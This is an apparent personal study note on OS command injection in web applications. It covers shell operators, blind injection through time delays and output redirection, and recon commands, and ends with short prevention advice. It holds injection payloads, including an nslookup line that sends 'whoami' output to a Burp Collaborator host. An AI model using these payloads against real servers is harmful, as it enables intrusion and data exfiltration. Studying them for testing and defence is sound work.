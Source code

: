 
### General Notes

> OS command injecction allows attackers to execute operating system commands on the server running a web application.
> Can be used to compromise the hosting infrastructure and exploit relationships to pivot the attack.

---

### Shell Characters

* `&` : First command in the background, and the second command running simultaneously.
* `&&`: Will execute the second command if the first one works.
* `|`: Will take the output from the first command and execute the second command.
* `||`: If the first command fails, the second one is executed.

---

### Injection

> Identifying points in the website where user input has access to backend server/database.
> If the application executes a shell command and returns the raw output.
> Using the `&` operator, can execute multiple commands at the same time.
```
& whoami &
```
> The `&` at the end because it separates the injected command from whatever follows.
> URL [[Web Encoding]] can be used on this payload.

> Make sure to differentiate between this `&` and the `&` in the URL for adding multiple parameters.

#### Blind Injections

> The output of the command isn't seen in the [[HTTP]] response .

> Can use a time delay.
```
& ping -c 10 127.0.0.1 &
```
> The `ping` command is useful as it will work here for 10 seconds, therefore our command will return a response after 10 seconds.

> The output can be redirected into a file in the web application with open access from the browser.
> Can write into the `static` directory.
```
/var/www/static/<file-name>
& whoami > /var/wwww/static/whoami.txt &
```
> This `whoami.txt` file can then be seen by adding it in the URL.
```
https://<URL>/whoami.txt
```

##### OAST

> Blind injections can also be discovered using out of band techniques, such as performing a [[Domain Name System (DNS)]] lookup of a server we have control over, such as the [[Burp Suite]] collaborator server.

```
x||nslookup <burp-collab-payalod>||
```
> We can get the collaborator payload by right clicking in the repeater and choosing insert collaborator payload.
> Moreover, we can observe the `nslookup` by checking the collaborator server logs.

> We can append the data we need to extract as a subdomain of the collaborator server.
```
x||nslookup `whoami`.<burp-collab-payload>||
```

---

### Useful Commands

> Useful commands to execute if an injection is discovered.

* `whoami` for the user.
* `uname -a` for the OS.
* `ifconfig` for the network. [[Networking/Routing|Routing]]
* `netstat -an` for the network connections. [[Port]]
* `ps ef` for the running processes. 

---

### Command Substitution

> Executing a command, and replacing the commands text with the output of the command as text also.
> Done using `$(command)`.

```
$ echo "mins$(echo 123)"
> mins123
```

> Can be used in blind attacks to brute force passwords using grep.
> Check Natas level [16](http://natas16.natas.labs.overthewire.org/)

---

### Preventing Command Injection Attacks

* Never call out to OS commands from application layer.
* If that is not the case, then strong input validationr required.
	* Validating against whitelist.
	* Validating data type.

---
